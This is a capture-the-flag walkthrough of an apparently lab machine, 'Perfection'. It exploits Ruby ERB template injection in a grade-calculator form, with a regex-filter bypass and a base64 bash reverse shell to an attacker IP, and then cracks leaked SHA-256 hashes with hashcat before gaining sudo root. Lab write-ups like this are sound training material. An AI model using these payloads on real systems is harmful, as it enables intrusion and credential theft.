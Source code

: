 # MACHINE - PERFECTION

---

## OPEN PORTS

```bash
$ nmap -sVC -T4 -Pn $IP
2/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## INVESIGATING THE SITE

- Web server is `Nginx`
- Programming language is `Ruby`
- There are three tabs

1. Home (the current page)
2. About Us
3. Calculate your weighted grade

- The source code of the home page reveals a directory `images`
- Let's go to the `About Us` page
- The source code doesn't show nothing special except for `susan` and `tina` images
- Finally there is the last page with showed up with a POST form for calculating the grade
- As we can see from the source code the POST form is directed to `weighted-grade-calc`
- Summary

1. An `images` folder
2. An `weigthed-grade-calc` page which hadldes requests from `weighted-grade` page
3. Possible users `tina` and `susan`

- Before trying the form let's run a deeper directory enumeration

```bash
$ gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirb/common.txt
```

- Unfortunately, it does not show anything more than we already know
- Interestingly, searching for `http://10.10.11.253/images` gives the following output

```html
<truncated>
<body>
  <h2>Sinatra doesn’t know this ditty.</h2>
  <img src='http://127.0.0.1:3000/__sinatra__/404.png'>
  <div id="c">
    Try this:
    <pre>get &#x27;&#x2F;images&#x27; do
  &quot;Hello World&quot;
end
</pre>
  </div>
</body>
```

- From this output we knows that there is some service running locally on port 3000
- `Sinatra` is a web framework for Ruby, simpler and quicker than `Ruby on Rails` and others
- Hence, this might be a 404 Error for Sinatra, we will need further investigation
- Now, let's return back to the Calculator and let's setup a proxy for BurpSuite
- Fill the fields with non-malicious data and submit
- We can see that the page is updated dynamically with the result of the calculation
- The results come along with the names of all categories
- This will be our attack vector

---

## OBTAINING A REVERSE SHELL

- First thing, we could try to run a simple XXS with `<script>alert(1)</script>`
- However, XXS is detected
- The fact that all categories are displayed in the resulting page is important
- On Ruby, like Python or PHP, we can embed source code into the page
- This source will also be evaluted.
- In Ruby, there is so-called *Embedded Ruby* (eRuby)
- To embed code in HTML we need to write `<% [ruby-code] %>`
- To execute and evaluate commands we need to write `<%= [code] %>`
- At this point, let's try to obtain a reverse shell using the following payload
- First obtain the base64 encoding of

```bash
$ echo "bash -i >& /dev/tcp/10.10.16.6/1234 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42LzEyMzQgMD4mMQ==
```

- That we will call `rev64`

```ruby
<%=system("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42LzEyMzQgMD4mMQ== | base64 -d | bash")%>
```

- We will substitute this to one of the categories
- Obviously, we need to make all of this URL encoded
- The final result is

```
a%0A<%2A%3dsystem("echo+<rev64>|+base64+-d+|+bash")%2A>1
```

- I have also added `a%0` which is just `a\n` and the final 1 to make things harder to detect
- Open BurpSuite, setup proxy, make a correct request modify one of the categories with the payload
- Finally, forward the request and now we have a reverse shell logged as `susan`

```bash
susan@perfection:~/ruby_app$ cd ..
susan@perfection:~$ cat user.txt
<USER-FLAG>
```

- Inspecting `main.rb` we see why `a%0` and `1` must be added as extremes to the payload
- Malicious input is detected if it does not start and ends with values between [a-zA-Z0-9]
- This is the snippet of code releated 

```ruby
<truncated>
if params[:category1] =~ /^[a-zA-Z0-9\/ ]+$/ && <truncated>
    <truncated>
else
    @result = "Malicious Input blocked"
    erb :'weighted_grade_results'
end
```

---

## PRIVILEGE ESCALATION

- To obtain the root flag, we need to escalate privileges
- In the `Migration` folder there is a file named `pupilpath_credentials.db`
- Let's download the file on the local machine
- First, make sure to start a simple HTTP server on the remote host
- Then, on the local host run

```bash
$ wget http://10.10.11.253:8000/pupilpath_credentials.db
```

- Running file inspection we see that it is just a SQlite 3.x database
- Opening with `DB Browser for SQLite` and going to `Browse Data` we see the following data

```
Susan Miller	abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
Tina Smith	dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
Harry Tyler	d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
David Lawrence	ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
Stephen Locke	154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
```

- Obv, we are interested in the Susan entry
- Using an online hash detector, we can easy see that it is a Raw-SHA256 hash (no salt)
- However, we will not able to crack it using hashcat. 
- Let's run linpeas or linenum on the remote host looking for more information.
- It is interesting to find an email on `/var/spool/mail/susan` that reads

```
<truncated> The password format is:
{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}
<truncated>
```

- Let's use this format in hashcat

```bash
$ hashcat -m 1400 -a 3 hash susan_nasus_?d?d?d?d?d?d?d?d?d?d
```

- And we find password 

```
<hash>:susan_nasus_4*******0
```

- Fortunately for us, susan user has sudo acess
- Just become root and read the `root/root.txt` file

```bash
susan@perfection:~$ sudo -s
Password: ...
root@perfection:~$ cat /root/root.txt
<ROOT-FLAG>
```